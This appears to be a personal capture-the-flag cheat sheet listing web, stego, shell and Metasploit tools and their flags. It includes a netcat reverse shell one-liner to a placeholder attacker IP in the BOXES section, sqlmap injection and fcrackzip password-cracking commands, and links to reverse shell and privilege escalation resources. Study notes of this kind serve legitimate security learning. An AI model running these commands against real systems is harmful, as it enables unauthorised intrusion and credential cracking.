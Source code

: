 # WEB
- Check for robots.txt
- gobuster -e -u [url] -w /usr/share/wordlists/dirb/common.txt
- searchsploit -r (buscar exploits de apps web)
- sqlmap:

		sqlmap -u URL --method=POST --data="user=&password=" -p "user" --dbs
- wpscan: scanner for wordpress
	- --url
	- --enumerate [-u for usernames]
	- --log
# CRYPTO
- https://quipqiup.com/
- http://www.cryptoprograms.com/

# BINARY EXPLOITATION
- to get asm code run 'objdump -d [binary file] > out.S'
- gdb

# STEGO
- strings
- xxd or hexdump -C
- binwalk
- steghide extract -sf
- fcrackzip

		fcrackzip -v -m zip6 -l 4-8 -u secret.zip
		fcrackzip -D -v -u -p /usr/share/wordlists/rockyou.txt secret.zip
- password generator: https://github.com/Broham/PassGen

# SHELL
- vim:
	- :colo elflord
- vulnerabilities in commands: gtfobins.github.io
- tmux:
	^B +
	- , (rename window)
	- ! (new window from split)
	- & (kill window)
	- % (vertical split)
	- " (horizontal split)
	- arrows (switch windows)

# BOXES
- sudo -l: gives the files you can access without root password
- reverseshells: https://github.com/infodox/python-pty-shells
- privilege escalation: https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- reverse shell: nc -nv [attackerIP] -e bash

## nmap:
- sT -> three way handshake
- sC -> standard scripts
- sV -> versions
- oA

## METASPLOIT
to start it:
		
		service postgresql start
		msfdb init
		msfconsole

6 types of modules:
- exploits: take advantage of a systems vulnerability and install a payload on the system.
- payloads: what we will try and plant on the system. Usually called rootkits.
	- singles: small pieces of code designed to take one single action.
	- stagers: to perform or create a communication between target and attacker.
	- stages: large payloads allowing potentially bigger atacks.
- auxiliary: unique types of attacks, robust tools. DOS functionality, scanners, crawlers, sniffers...
- encoders: to re-encode payloads. To get past security systems (anti-virus). Evasion techniques.
- nops: no-operation. Forces a processor to do nothing for an entire clockcycle. To exploit the buffer overflow
- post: after the system has been exploited.

useful commands:
- help
- use: allow to load a module.
- show: give you information on the module yo have loaded.
	- options
	- payloads
	- targets
	- info: about the exploit
- set: set options
- search:
	- platform:[windows, linux..]
	- name
	- type:[type of module]
- exploit: runs the exploit
- back: unload a module
- exit: exit metasploit

Modules are stored in /usr/share/metasploit-framework/modules


